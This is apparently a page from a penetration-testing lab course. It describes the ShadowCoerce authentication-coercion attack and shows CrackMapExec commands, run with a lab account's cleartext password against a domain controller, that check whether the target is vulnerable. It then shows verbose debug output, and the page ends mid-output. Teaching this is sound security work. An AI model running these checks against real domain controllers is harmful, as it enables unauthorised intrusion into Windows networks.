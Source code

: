 ***

## ShadowCoerce

ShadowCoerce was discovered and first detailed by security researcher Lionel Gilles in late 2021 at the end of a presentation showcasing the PetitPotam attack. [Charlie Bromberg](https://twitter.com/_nwodtuhs) created a [proof of concept (PoC)](https://github.com/ShutdownRepo/ShadowCoerce).

Let's use the `carole.holmes` account to check if the DC is vulnerable to this attack using the CrackMapExec module `shadowcoerce`.

### **ShadowCoerce Vulnerability Check**

```shell-session
$ proxychains4 -q crackmapexec smb 172.16.10.3 -u carole.holmes -p 'Y3t4n0th3rP4ssw0rd' -M shadowcoerce

SMB         172.16.10.3     445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:INLANEFREIGHT.HTB) (signing:True) (SMBv1:True)
SMB         172.16.10.3     445    DC01             [+] INLANEFREIGHT.HTB\carole.holmes:Y3t4n0th3rP4ssw0rd
```

Most authors of vulnerability scanning modules did not include a message if the computer is not vulnerable, so we do not see anything after the command is executed. However, if we check the source code of the `shadowcoerse` module, located at (`./CrackMapExec/cme/modules/shadowcoerce.py`), we will see that the author included some debug logs with (`logging.debug`). If we run CrackMapExec in `debug` mode, it will print those logs.

To run CrackMapExec in debug mode, we can use the option `--verbose` before the protocol.

### **Running shadowcoerce Module with Verbose Enabled**

```shell-session
$ proxychains4 -q crackmapexec --verbose smb 172.16.10.3 -u carole.holmes -p 'Y3t4n0th3rP4ssw0rd' -M shadowcoerce

DEBUG:root:Passed args:
{'aesKey': None,              
 'amsi_bypass': None,                                                                          
 'clear_obfscripts': False,                                                                    
 'codec': 'utf-8',       
 'computers': None, 
 'connectback_host': None,
 'content': False,
 'continue_on_success': False,
 'cred_id': [],
 'darrell': False,
 'depth': None, 
 'disks': False,
 'domain': None,
 'enabled': False,    
 'exclude_dirs': '',
 'exec_method': None,                                                                          
 'execute': None,                                                                              
 'export': None,                                                                               
 'fail_limit': None,                       
 'force_ps32': False,           
 'gen_relay_list': None,       
 'get_file': None,                                                                             
 'gfail_limit': None,      
 'groups': None,
 'hash': [],
 'jitter': None,
 'kdcHost': None,
```